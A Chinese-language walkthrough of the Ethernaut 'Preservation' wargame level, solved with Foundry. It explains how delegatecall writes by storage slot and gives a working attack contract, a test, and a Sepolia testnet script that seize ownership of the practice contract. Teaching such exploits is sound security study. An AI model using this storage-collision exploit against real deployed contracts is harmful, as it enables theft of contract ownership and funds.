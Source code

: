 # Foundry 通关 Ethernaut（15）— Preservation

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

取得合约的所有权（`owner`）。

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**:  初始化两个库合约地址，初始化 owner 地址为合约部署者
2. **setFirstTime**: 使用 delegatecall 调用 timeZone1Library 合约的 setTime 函数
3. **setSecondTime**: 使用 delegatecall 调用 timeZone2Library 合约的 setTime 函数
4. **LibraryContract** : 库合约，拥有一个状态变量 storedTime 以及一个 setTime 函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner; // slot 2
    uint256 storedTime;  // slot 3
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

## 思路

对于 delegatecall 来说，涉及到变量的修改时它是根据插槽位置来更新的

![image-20240916184533778](../pict/image-20240916184533778.png)

对于这里的合约来说：

1. 库合约的 setTime 函数更新了 storedTime 变量，storedTime 在 slot0
2. delegatecall 调用 setTime 时，对应的，会更新本合约的 slot0 的变量即 timeZone1Library
3. timeZone1Library 是 address 类型，storedTime 是 uint256 类型，因此，最终更新时，storedTime 会被强制转换为 address 类型

因此，我们可以

1. 将攻击合约地址转换为 uint256 类型传入 setFirstTime，成功将 timeZone1Library 修改为攻击合约地址
2. 在攻击合约设置setTime 函数实现修改 owner 逻辑
3. 调用 setFirstTime 修改 owner

## foundry 复现

### 测试

1. 攻击合约

   ```solidity
   contract Attack {
       // public library contracts
       address public timeZone1Library; // slot 0
       address public timeZone2Library; // slot 1
       // 和目标合约 slot 对齐
       address public owner; // slot 2
       uint256 storedTime;  // slot 3
       // Sets the function signature for delegatecall
       bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
   
       Preservation public preservertion;
   
       constructor(address _address){
           preservertion = Preservation(_address);
       }
   
       function attack() public {
           uint256 contractAddr = uint256(uint160(address(this)));
           // 修改timeZone1Library为攻击合约地址
           preservertion.setFirstTime(contractAddr);
           uint256 addr = uint256(uint160(msg.sender));
           // 调用本合约的 setTime 修改 owner
           preservertion.setFirstTime(addr);
       }
       
       function setTime(uint256 _time) public {
           owner = address(uint160(_time));
       }
   }
   ```

2. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {LibraryContract,Preservation,Attack} from "../src/Preservation.sol";
   
   contract PreservationTest is Test {
       LibraryContract public libraryA;
       LibraryContract public libraryB;
       Preservation public preservation;
       Attack public attack;
       address public attacker = vm.addr(123);
   
       function setUp() public {
           libraryA= new LibraryContract();
           libraryB= new LibraryContract();
           preservation  = new Preservation(address(libraryA),address(libraryB));
           vm.prank(attacker);
           attack = new Attack(address(preservation));
       }
   
       function test_transfer() public {
           console.log("before",preservation.owner());
           // 切换成　attacker 攻击，最后 owner　为　attacker
           vm.prank(attacker);
           attack.attack();
           console.log("after",preservation.owner());
           console.log("attacker:",attacker);
       }
   }
   ```

3. 终端输入

   ```solidity
    forge test --match-path test/Preservation.t.sol -vvvv
   ```

   ![image-20240916184506744](../pict/image-20240916184506744.png)

   我们可以看到，攻击后，owner 成功更新，值为 attacker 地址

### 链上交互

1. 部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Preservation,Attack} from "../src/Preservation.sol";
   
   contract PreservationScript is Script {
       Preservation public preservation;
       Attack public attack;
   
       function setUp() public {
           preservation = Preservation(0x6A613Fd64Ca1658D6cb5eAc3bd12Fe6c5b841211);
       }
       function run() public {
           vm.startBroadcast();
           attack = new Attack(address(preservation));
           console.log("before",preservation.owner());
           attack.attack();
           console.log("after",preservation.owner());
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/Preservation.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --account [AcoountName] interactive
   ```

   ![image-20240916185616466](../pict/image-20240916185616466.png)

可以看到，owner 改变












